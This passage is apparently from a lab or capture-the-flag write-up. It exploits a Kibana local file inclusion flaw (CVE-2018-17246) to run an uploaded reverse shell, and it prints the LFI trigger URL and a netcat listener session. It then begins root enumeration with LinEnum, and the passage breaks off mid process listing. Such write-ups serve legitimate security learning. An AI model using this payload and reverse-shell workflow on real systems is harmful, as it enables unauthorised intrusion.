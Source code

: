 ![kibana.png](../../resources/be2289ec436c42649948bb9638978e61.png)
Next I googled for any exploits relating to Kibana and found *[this](https://github.com/mpgn/CVE-2018-17246)*. It tells us that there is an LFI vulnerability. First I copy my reverse shell over to the box using <b>scp</b> once again. Then I set up my <b>netcat</b> listener and lastly triggered the LFI.
```
http://localhost:5601/api/console/api_server?apis=../../../../../../.../../../../tmp/myshell.js
```
If I look at my <b>netcat</b> listener it shows a connecton and if I type <b>whoami</b> it shows that I am not the user <b>kibana</b>
```
# nc -lvnp 10000
listening on [any] 10000 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.115] 58044

whoami
kibana
```
Now for root. I decided to run <b>LinEnum.sh</b> to do some enumeration since we are now a different user. Looking at the running processes you should see this very long process running.
```
root       6349  0.5 13.5 2717068 523432 ?      SNsl sep21   6:39 /bin/java -Xms500m -Xmx500m -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFract
ion=75 -XX:+UseCMSInitiatingOccupancyOnly -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djruby.compile.invokedynamic=true -Djruby.jit.threshold=0 -XX:+HeapDumpOnOut
OfMemoryError -Djava.security.egd=file:/dev/urandom -cp /usr/share/logstash/logstash-core/lib/jars/animal-sniffer-annotations-1.14.jar:/usr/share/logstash/logstash-co
re/lib/jars/commons-codec-1.11.jar:/usr/share/logstash/logstash-core/lib/jars/commons-compiler-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/error_prone_annota
tions-2.0.18.jar:/usr/share/logstash/logstash-core/lib/jars/google-java-format-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/gradle-license-report-0.7.1.jar:/usr
/share/logstash/logstash-core/lib/jars/guava-22.0.jar:/usr/share/logstash/logstash-core/lib/jars/j2objc-annotations-1.1.jar:/usr/share/logstash/logstash-core/lib/jars
/jackson-annotations-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-core-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-databind-2.9.5.jar
:/usr/share/logstash/logstash-core/lib/jars/jackson-dataformat-cbor-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/janino-3.0.8.jar:/usr/share/logstash/logstash
-core/lib/jars/jruby-complete-9.1.13.0.jar:/usr/share/logstash/logstash-core/lib/jars/jsr305-1.3.9.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-api-2.9.1.jar:
/usr/share/logstash/logstash-core/lib/jars/log4j-core-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-slf4j-impl-2.9.1.jar:/usr/share/logstash/logstash-cor
e/lib/jars/logstash-core.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.commands-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.cor
e.contenttype-3.4.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.expressions-3.4.300.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.c
ore.filesystem-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.jobs-3.5.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.re
```